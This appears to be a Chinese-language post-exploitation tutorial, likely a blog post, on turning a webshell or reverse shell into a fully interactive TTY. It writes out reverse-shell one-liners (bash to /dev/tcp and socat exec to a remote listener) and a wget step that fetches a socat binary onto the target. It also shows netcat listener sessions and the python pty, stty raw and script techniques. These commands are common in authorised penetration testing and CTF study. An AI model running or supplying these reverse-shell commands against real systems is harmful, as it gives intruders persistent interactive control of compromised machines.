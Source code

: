 # 实现交互式shell的几种方式

当我们拿到一个webshell的时候，我们能够执行一些命令，但是这些命令都是非交互的，也就是说不存在上下文的概念。当我们想使用vim、top等命令时，webshell就无能为力了。

那我们怎么获取一个可交互的webshell呢？

## 1. python pty 方式

一般我们都会使用nc来接收反弹来的shell，只需要在目标上\(以linux为例\)执行：

```bash
bash -i >& /dev/tcp/192.168.2.134/4444 0>&1
```

本地接收一下就ok了，但是反弹回来的shell，或多或少都会存在问题，比如当我想使用top命令时就会提示没有 `tty`。简单的来说就是没有上下文环境，这样的话，`vim`，`sudo`等操作都做不了，有时候还需要其他工具，很麻烦。

```bash
C:\Users\w5023
λ nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.2.134] from DESKTOP-IBUUT6H.lan [192.168.2.134] 30688
ubuntu@ubuntu:~$ whoami
whoami
ubuntu
ubuntu@ubuntu:~$ top
top
top: failed tty get
ubuntu@ubuntu:~$ tty
tty
not a tty
```

但是如果发现对方机器上有 python 的话，我们可以：

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://saucer-man.com/usr/uploads/2019/06/3893556663.png)

可以实现简单的tty，但是这种方式有个问题，当我们ctrl+C的时候，所有连接都会断掉，又需要重新来一遍，而且vim虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

## 2. 升级nc为完全交互

整个流程是在第一步的基础上，但是需要用到的工具在linux上，所以把攻击机切换为linux。

现在攻击机和目标机分别为：

* 攻击机 Linux 192.168.81.160
* 目标机 Linux 192.168.81.162

简单把反弹一个完全交互shell的过程写出来

```bash
# 攻击机本地执行
# 首先检查当前终端和STTY信息
$ echo $TERM      
$ stty -a 
# nc开启监听
$ nc -lvvp 4444
```

![](https://saucer-man.com/usr/uploads/2019/06/9701011.png)

```bash
# 目标机执行
$ bash -i >& /dev/tcp/192.168.81.160/4444 0>&1
```

```bash
# 此时攻击机已经获取到了bash
# 接下来执行
$ python -c 'import pty; pty.spawn("/bin/bash")'  //启用python交互式
# 把它丢到后台挂起
$ ctrl + z   
# 重置stty，也就意味着你看不到输入的内容
$ stty raw -echo  
# 把后台挂起的程序调回前台
$ fg  
# 完全刷新终端屏幕
$ reset  
# 接下来设置环境变量，根据第一步得到的环境变量来设置
$ export SHELL=bash   
$ export TERM=xterm-256color   
$ stty rows 行数 columns 列数
```

到这里，就可以得到一个完美的shell了。

## 3. 使用socat

socat是类Unix系统下的一个工具，可以看作是 nc 的加强版。我们可以使用socat来传递完整的带有tty的TCP连接。缺点也很明显，**只能在linux下面运行**

下载地址：[https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

使用起来也很简单。

* 攻击机：

  ```bash
  # 首先安装
  $ sudo apt install socat
  # 执行
  $ socat file:`tty`,raw,echo=0 tcp-listen:4444
  ```

* 目标机

  ```bash
  # 把socat上传到目标机器上或者直接下载
  $ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
  # 运行
  $ chmod +x /tmp/socat
  $ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
  ```

这种方式基本和ssh类似，ctrl+C也不会直接断开。

## 4. script获取pty

我们可以使用 Linux 系统下的 `script` 命令，在弹回来的 shell 下创建一个带有 tty 的 shell, 这样就可以勉强使用一下 `top` 和 `vim` :

```bash
$ script /dev/null
```

如果不加 `/dev/null` 的话，会在当前路径下生成一个名字是 `typescript` 的文件，记录着在 script 生命周期里你执行的所有命令和结果。

结果：

```bash
C:\Users\w5023
λ nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.2.134] from DESKTOP-IBUUT6H.lan [192.168.2.134] 30567
ubuntu@ubuntu:~$ tty
tty
not a tty
ubuntu@ubuntu:~$ script /dev/null
script /dev/null
Script started, file is /dev/null
ubuntu@ubuntu:~$ tty
tty
/dev/pts/1
```

## 5. 参考

* [https://www.freebuf.com/news/142195.html](https://www.freebuf.com/news/142195.html)
* [http://blog.evalbug.com/2018/07/25/antsword\_prompt\_shell](http://blog.evalbug.com/2018/07/25/antsword_prompt_shell)

